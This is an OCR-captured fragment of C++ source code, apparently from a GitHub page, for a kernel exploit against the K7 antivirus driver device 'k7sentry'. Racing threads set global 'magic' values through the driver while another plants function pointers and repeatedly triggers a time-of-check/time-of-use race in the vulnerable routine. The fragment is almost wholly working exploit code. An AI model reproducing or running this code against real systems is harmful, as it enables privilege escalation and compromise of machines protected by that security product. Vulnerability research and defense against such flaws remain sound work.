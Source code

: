 ```C++
	HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	if (hDevice == INVALID_HANDLE_VALUE)
	{
		printf("TpSetExploitMagics!Error: Couldn't open a handle to the device\r\n");
		return 0;
	}

	while (TRUE)
	{
		SetControllingGlobalData(hDevice, 0xFF);
	}

	return 0;
}

DWORD WINAPI TpSetPassValidationMagics(LPVOID lpParameter)
{
	//
	// This thread will set the global variables to be K and 0 which will pass the test as to whether 
	// we should be able to continue.
	//
	// We need to open tour own connection to the driver to prevent synchrinization
	//
	HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	if (hDevice == INVALID_HANDLE_VALUE)
	{
		printf("TpSetPassValidationMagics!Error: Couldn't open a handle to the device\r\n");
		return 0;
	}

	while (TRUE)
	{
		SetControllingGlobalData(hDevice, 0);
	}

	return 0;
}

DWORD WINAPI TpTriggerExploit(LPVOID lpParameter)
{
	//
	// This will attempt to call the vulnerable function
	//
	HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	if (hDevice == INVALID_HANDLE_VALUE)
	{
		printf("TpTriggerExploit!Error: Couldn't open a handle to the device\r\n");
		return 0;
	}

	// This fills in the buffer that will be dereferenced to point to our functions.
	SetupFixedGlobalDataAndFnPointers(hDevice);

	while (TRUE)
	{
		AttemptTocTouCall(hDevice);
	}

	return 0;
```